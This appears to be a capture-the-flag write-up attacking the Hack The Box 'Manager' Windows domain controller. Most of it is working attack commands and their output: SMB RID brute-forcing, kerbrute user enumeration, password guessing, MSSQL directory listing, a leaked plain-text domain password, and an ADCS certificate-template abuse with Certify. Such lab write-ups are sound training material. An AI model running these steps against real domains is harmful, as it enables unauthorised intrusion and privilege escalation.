*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Tue Feb 13 11:35:20 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.236
Nmap scan report for 10.10.11.236
Host is up (0.048s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49733/tcp open  unknown
53547/tcp open  unknown
53653/tcp open  unknown
53696/tcp open  unknown
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Tue Feb 13 11:37:46 2024 as: nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49673,49674,49675,49733,53547,53653,53696, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.236
Nmap scan report for 10.10.11.236
Host is up (0.050s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          Microsoft IIS httpd 10.0
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-13 17:37:54Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-13T17:39:24+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2024-02-13T17:39:24+00:00; +7h00m00s from scanner time.
1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-02-13T17:39:24+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-13T17:17:41
| Not valid after:  2054-02-13T17:17:41
| MD5:   22e2:38ad:defc:4329:22b3:86da:7394:0ba2
|_SHA-1: 501d:ceb8:92f1:06c8:1bea:d0c0:bfaf:ceb8:8e7d:8f9c
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2024-02-13T17:39:24+00:00; +7h00m00s from scanner time.
3269/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2024-02-13T17:39:24+00:00; +7h00m00s from scanner time.
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open     mc-nmf        .NET Message Framing
49667/tcp open     msrpc         Microsoft Windows RPC
49673/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open     msrpc         Microsoft Windows RPC
49675/tcp open     msrpc         Microsoft Windows RPC
49733/tcp open     msrpc         Microsoft Windows RPC
53547/tcp open     msrpc         Microsoft Windows RPC
53653/tcp filtered unknown
53696/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-13T17:38:45
|_  start_date: N/A
```

The domain name is "manager.htb." It is added to the hosts file. The SMB service allows anonymous access, and a range of users are identified through it.

```shell
$ crackmapexec smb $IP -u 'guest' -p '' --shares --rid-brute --users --groups --loggedon-users
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             [+] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL                          Logon server share 
SMB         10.10.11.236    445    DC01             [+] Enumerated loggedon users
SMB         10.10.11.236    445    DC01             [-] Error enumerating domain users using dc ip 10.10.11.236: NTLM needs domain\username and a password
SMB         10.10.11.236    445    DC01             [*] Trying with SAMRPC protocol
SMB         10.10.11.236    445    DC01             [-] Error enumerating domain group using dc ip 10.10.11.236: NTLM needs domain\username and a password
SMB         10.10.11.236    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

```shell
$ ./kerbrute_linux_amd64 userenum --dc 10.10.11.236 -d manager.htb ~/Desktop/htb/manager/users

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/13/24 - Ronnie Flathers @ropnop

2024/02/13 12:24:25 >  Using KDC(s):
2024/02/13 12:24:25 >   10.10.11.236:88

2024/02/13 12:24:26 >  [+] VALID USERNAME:       Cheng@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       ChinHae@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       Zhong@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       JinWoo@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       Ryan@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       Raven@manager.htb
2024/02/13 12:24:26 >  [+] VALID USERNAME:       Operator@manager.htb
2024/02/13 12:24:26 >  Done! Tested 7 usernames (7 valid) in 0.054 seconds
```

On port 80 there is a webapp.


Web fuzzing, including vhosts, does not seem to lead to any results.

After a few hours stuck I try to look at the Forum for a hint. In the forum, they talk about identifying a set of usernames and then doing bruteforce. The list of usernames I have already retrieved so it is a matter of doing bruteforce. After numerous trials the solution is found.



The trivial credentials of the "operator" user are identified. Such a user cannot log in with WinRM (RDP is not available). The user can access the MSSQL database, but no custom database is present.

To get a better view of the domain, python-bloodhound is run remotely. The collected data is then analyzed with BloodHound.

```shell
$ bloodhound-python -u operator -p operator -ns 10.10.11.236 -d manager.htb --zip -c All
INFO: Found AD domain: manager.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.manager.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.manager.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.manager.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.manager.htb
INFO: Done in 00M 15S
INFO: Compressing output into 20240213154701_bloodhound.zip
```

In Bloodhound, the first thing to do is to set user "operator" as owned.



There are no kerberostable or AS-REP roastabke users. The MSSQL database is accessed again with the credentials of the "operator" user.

We have a guest user, but you can equally use MSSQL's "xp_dirtree" construct for listing files and folders.

```shell
$ python3 examples/mssqlclient.py 'operator:operator@10.10.11.236' -windows-auth
[...]
SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\', 1, 1
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0
```

It might be interesting to do the listing of files in the webroot of the webapp on port 80.

```shell
SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\inetpub', 1, 1
subdirectory   depth   file   
------------   -----   ----   
custerr            1      0   

history            1      0   

logs               1      0   

temp               1      0   

wwwroot            1      0   

SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\inetpub\wwwroot', 1, 1
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1
```

The file "website-backup-27-07-23-old.zipper" looks very interesting. The file can be downloaded from the webapp.

```shell
$ wget http://10.10.11.236/website-backup-27-07-23-old.zip                                                                                 
--2024-02-14 10:29:04--  http://10.10.11.236/website-backup-27-07-23-old.zip
Connecting to 10.10.11.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1045328 (1021K) [application/x-zip-compressed]
Saving to: ‘website-backup-27-07-23-old.zip’

website-backup-27-07-23-old.zip                             100%[========================================================================================================================================>]   1021K  1.19MB/s    in 0.8s    

2024-02-14 10:29:05 (1.19 MB/s) - ‘website-backup-27-07-23-old.zip’ saved [1045328/1045328]
```

We move on to the analysis of the contents of the ZIP file.



The ".old-conf.xml" file appears to contain the credentials of the domain user "raven". Such a user can access the machine with WinRM.



***user.txt***: bc790ce842c4e38f7e13d90d67355f6a



It's time to privesc. Winpeas was loaded, but was unable to detect criticality. "adPEAS" was then loaded to detect any vulnerabilities regarding the Active Directory domain. Some interesting information was identified.

- Windows 2016



- `[!] Template 'SubCA' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'`
- `[!] Template 'WebServer' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'`



The 'ENROLLEE_SUPPLIES_SUBJECT' flag of the template is deepened. This flag concerns "Active Directory Certificate Services" or rather ADCS.

After brief documentation (credit: [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)), the problem is identified. Certificate templates are a “blueprint” of settings that the CA uses when creating a certificate, and include things such as the EKUs, enrollment permissions, the certificate’s expiration, issuance requirements, and cryptography settings. In AD environments, clients interact with Enterprise CAs to request a certificate based on the settings defined in a certificate template. AD CS Enterprise CAs issue certificates with settings defined by certificate templates. These templates are collections of enrollment policies and predefined certificate settings. The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR. 

If a requester can specify the SAN in a CSR, the requester can request a certificate as anyone (e.g., a domain admin user). The certificate template’s AD object specifies if the requester can specify the SAN in its mspki-certificate-name-flag property. The mspki-certificate-name-flag property is a bitmask and if the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag is present, a requester can specify the SAN. This is surfaced as the “Supply in request” option in the “Subject Name” tab in certtmpl.msc.

```shell
$ ldapsearch -x -H ldap://10.10.11.236:389 -D 'CN=RAVEN,CN=USERS,DC=MANAGER,DC=HTB' -w 'R4v3nBe5tD3veloP3r!123' -b "CN=WebServer,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb"
# extended LDIF
#
# LDAPv3
# base <CN=WebServer,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# WebServer, Certificate Templates, Public Key Services, Services, Configuratio
 n, manager.htb
dn: CN=WebServer,CN=Certificate Templates,CN=Public Key Services,CN=Services,C
 N=Configuration,DC=manager,DC=htb
objectClass: top
objectClass: pKICertificateTemplate
cn: WebServer
distinguishedName: CN=WebServer,CN=Certificate Templates,CN=Public Key Service
 s,CN=Services,CN=Configuration,DC=manager,DC=htb
instanceType: 4
whenCreated: 20230727103105.0Z
whenChanged: 20230727103105.0Z
displayName: Web Server
uSNCreated: 12794
uSNChanged: 12794
showInAdvancedViewOnly: TRUE
name: WebServer
objectGUID:: pKqPPHW8vkuSnHq5la5RDg==
flags: 66113
revision: 4
objectCategory: CN=PKI-Certificate-Template,CN=Schema,CN=Configuration,DC=mana
 ger,DC=htb
pKIDefaultKeySpec: 1
pKIKeyUsage:: oAA=
pKIMaxIssuingDepth: 0
pKICriticalExtensions: 2.5.29.15
pKIExpirationPeriod:: AIByDl3C/f8=
pKIOverlapPeriod:: AICmCv/e//8=
pKIExtendedKeyUsage: 1.3.6.1.5.5.7.3.1
pKIDefaultCSPs: 2,Microsoft DH SChannel Cryptographic Provider
pKIDefaultCSPs: 1,Microsoft RSA SChannel Cryptographic Provider
dSCorePropagationData: 16010101000000.0Z
msPKI-RA-Signature: 0
msPKI-Enrollment-Flag: 0
msPKI-Private-Key-Flag: 0
msPKI-Certificate-Name-Flag: 1
msPKI-Minimal-Key-Size: 2048
msPKI-Template-Schema-Version: 1
msPKI-Template-Minor-Revision: 1
msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.14314111.5759319.7095462.1403641
 .2020894.35.1.16

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

To check vulnerabilities related to certificates, [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify) is used. You compile the solution with Visual Studio and get an executable file.

```shell
*Evil-WinRM* PS C:\Users\Raven\Documents> upload Certify.exe
                                        
Info: Uploading /home/kali/Desktop/tools/windows/certify/Certify.exe to C:\Users\Raven\Documents\Certify.exe
                                        
Data: 236884 bytes of 236884 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Raven\Documents> .\Certify.exe find

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'
[...]
CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : WebServer
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : SubCA
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : <null>
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
